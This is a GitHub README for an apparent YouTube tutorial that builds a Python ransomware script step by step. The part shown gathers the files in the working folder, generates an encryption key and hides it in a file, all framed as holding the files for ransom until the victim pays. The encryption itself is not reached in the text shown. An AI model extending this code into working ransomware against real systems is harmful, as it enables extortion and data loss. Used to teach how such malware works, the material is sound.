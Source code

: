 # Ransomware

This is an example application featured in NetworkChuck's <a href="https://youtu.be/UtMMjXOlRQc">Python Malware Tutorial</a>.

### Instructions

**Step 1:**
Make a folder called ``ransomware`` and create a few random ``.txt`` files with some silly phrases in them:

<pre>
<code>$ mkdir ransomware
$ cd ransomware
$ echo "This is a file" > file.txt
$ echo "Leave me alone" > file2.txt
$ echo "Another one" > hey.txt
$ echo "One more time" > pleasedonthurtme.txt</code>
</pre>

Now let's hold these files for ransom! Let's encrypt those suckers right now! Here we go:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Write this code in the following ``voldemort.py`` file:

<details>
<summary>💰 How to Hold These Files for Ransom:</summary>

```python
#!/usr/bin/env python3
import os

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

```
</details>

When you first run ``voldemort.py`` in your terminal, you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

**Step 2:**
Now let's encrypt those files! Start it off by running the following command:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Add more code to ``voldemort.py``:

<details>
<summary>🔒 How to Encrypt These Files:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

key = Fernet.generate_key()

print(key)

```
</details>

When you next run ``voldemort.py``, you should see the following output for your key:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']
b'nDcZ_UIVfpECWw2ezj2T4RKHg7i_7ARgMtHXEVxarfQ='</code>
</pre>

**Step 3:**
Obviously, we don't want to print our key right out there in the open where the user can see it. We want the user to give us money, but we do need to save the key into another file for safety so we can unlock the files later *after* we get paid 😉:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Add more code to ``voldemort.py``:

<details>
<summary>🔑 How to Save the Key:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

key = Fernet.generate_key()

with open("thekey.key", "wb") as thekey:
    thekey.write(key)

```
</details>

Run ``voldemort.py`` and you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

Wait, where is ``thekey.key``? Don't worry! It is still hidden and we can finally view it by entering the following commands:

<pre>
<code>$ ls
file.txt             hey.txt              thekey.key
file2.txt            pleasedonthurtme.txt voldemort.py
$ cat thekey.key
l-4zrPy0VkR8pDJnGvsxyy2UEXGiV0AKkpEQR-fzD14=%</code>
</pre>
